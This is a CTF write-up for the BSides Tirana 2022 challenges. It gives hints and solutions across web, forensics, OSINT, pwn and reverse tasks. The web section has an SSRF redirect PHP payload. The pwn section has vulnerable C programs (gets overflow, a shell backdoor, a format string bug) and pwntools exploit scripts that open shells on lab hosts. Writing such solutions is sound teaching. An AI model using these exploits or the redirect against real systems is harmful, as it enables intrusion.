# BSides Tirana 2022 Web Challenges & Solutions

## Web Challenges

### Insider

This is a web app to detect burp suite (for real?!)
Upon Visiting the page, the user will be presented with a alert saying "Don't Cheat" (If browser is proxied through burp)

the jquery has been modified and a snippet of code has been added to detect `http://burp/favicon.ico`, since by default, burp suite will be listening at that address, if the image load is successful that means the browser is being proxied through burp and user recived the mssage saying `Don't Cheat` and a `logo.png` gets loaded and if there is no burp, then a `logo.jpg` gets loaded









Requesting logo.jpg will result in `Good: BASE64-Flag`

### Comedian

The web app allows you to serch for jokes


Clicking on the image takes us to another url that says you are not the joke master


Because it is checking for the src-addr to be from local host


the jokes are retirved from a 3rd-party website



The path is not controllable, only the host is controllable



It's possible to send the Comedian to attacker controlled website, hosting a index.php to send a 302 redirect (gaining control over full url) sending comedian to jokemaster (127.0.0.1) to retrieve the flag



```
<?php

header('Location: http://localhost/jokemaster')

?>
```

## Forensic

# Creature

Image shows some not common symbols
a quick google reverse image search revelas alien language



### Hydra

A Memory Dump and a Zip File

Zip needs a password which can be retireved by analyzing the memory .dmp

First you need to use volatility to dump the notepad.exe process memory and use strings

```
# volatility -f test.raw pslist | grep notepad
Volatility Foundation Volatility Framework 2.6
0x85872b18 notepad.exe 2796 2168 5 81 1 0 2018-03-01 14:01:51 UTC+0000

```

```
# volatility -f test.raw memdump --dump-dir=./ -p 2796
Volatility Foundation Volatility Framework 2.6
************************************************************************
Writing notepad.exe [ 2796] to 2796.dmp
```



Using the extracted password it's possible to access the pcap file inside the zip archive


Basic analyze of the HTTP traffic can reveal the flag

### Plain Sight

2 files exist

- key.txt
- secret.txt

secret.txt only shows a short sentence, but it contains more than that, it contains hidden characters, using an hex editor it will be visible



Using https://stegcloak.surge.sh/ it's possible to get the flag



## OSINT

### Club

Using tools such as `sherlock` it's possible to enumerate all social medias for the provided username **tiranauser**



### Launch

Again using sherlock and searching for the username it's possible to find a github account, taking a look at the last repository (has the word launch in it)

One of the commits mentions `Increased Security` and removes the flag


### Notes

Visiting the page indicates there used to be something in the page was not supposed to be


Getting help from https://archive.org/ can go back in time and visit the old page containing the flag


## PWN

### Leak

The app is fairly easy (thank you @LiveOverflow)
A buffer overflow exists which can be used to return to the backdoor function

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <string.h>

// gcc system_health_check.c -o system_health_check -no-pie -fno-stack-protector

// --------------------------------------------------- SETUP

void ignore_me_init_buffering() {
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void kill_on_timeout(int sig) {
  if (sig == SIGALRM) {
  	printf("[!] Anti DoS Signal. Patch me out for testing.");
    _exit(0);
  }
}

void ignore_me_init_signal() {
	signal(SIGALRM, kill_on_timeout);
	alarm(60);
}

// --------------------------------------------------- MENU

void backdoor() {
    system("/bin/sh");
}

void remote_system_health_check() {
    char read_buf[0xff];
    puts("Enter password to get system details:\n");
    gets(read_buf);
    if(strcmp(read_buf, "sUp3r_S3cr3T_P4s5w0rD") == 0) {
        puts("Access Granted\n");
        system("top -b -n 1");
    } else {
        puts("Wrong password!\n");
        _exit(0);
    }
}

// --------------------------------------------------- MAIN

void main(int argc, char* argv[]) {
	ignore_me_init_buffering();
	ignore_me_init_signal();

  remote_system_health_check();
}


```

Exploit:

```
from pwn import *

p = remote("192.168.178.95", 1024)
print(p.recvline())

raw_input("attach gdb")

padding = "A"*cyclic_find("aclaacma")
RET = p64(0x401016)
RIP = p64(0x401254)

p.sendline("sUp3r_S3cr3T_P4s5w0rD\x00"+padding+RET+RIP)

p.interactive()
```

### Rope

As simple as it can get, Rope chain (that's it)
Exploit:

```
from pwn import *

# r = process("./bof")
r = remote("localhost", 5012)
pause()

RET = 0x0000000000400486
SHELL = 0x00000000004006a4
SYSTEM = 0x4004b0
POP_RDI_RET = 0x0000000000400683

PAYLOAD = b"A" * 40
PAYLOAD += p64(RET) + p64(POP_RDI_RET) + p64(SHELL) + p64(SYSTEM)
r.sendline(PAYLOAD)

r.interactive()
```

### Secret

App is vulnerable to format string attack

Code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define SIZE 0x100

int main()
{
  char* flagBuf;
  char buf[20];
  int fd;

  flagBuf = malloc(SIZE);
  fd = open("flag", 0);
  read(fd, flagBuf, SIZE);

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("Enter some string that can exploit a stupid printf\n");

  gets(buf);
  printf(buf);
}
```

Exploit:

```
from pwn import *
i=0
while(True):
    p = process('./formatPwn')

    # p = remote('3.138.154.93', 1003)
    p.sendline("%%%d$s" % i)
    i += 1
    res = p.recv()
    if 'JCTF{' in res:
     print(res)
     print("Position: " + str(i))
     break
```

## Reverse

### Developer

Idea from Welcome-CTF

this challenge is easy, a js file containing the flag, divided to chunks, manual work is involved to retireve the flag




### Neo

Triggering Change Flag


Says there is something missing


Monnitor File-System Calls using procmon revelas the app is trying to open a handle to a file at temp called `matrix.key` but it does not exist


Manual creation of this file results in below result (Win)



### Encryptor

Encrypor.exe & flag.txt



flag.txt has been changed



Encryptor.exe accept a file as input and transforms the file


Transformation mechanism is simple, each character XORed with the same character + 10


THATS IT! Hacking is fun! :D
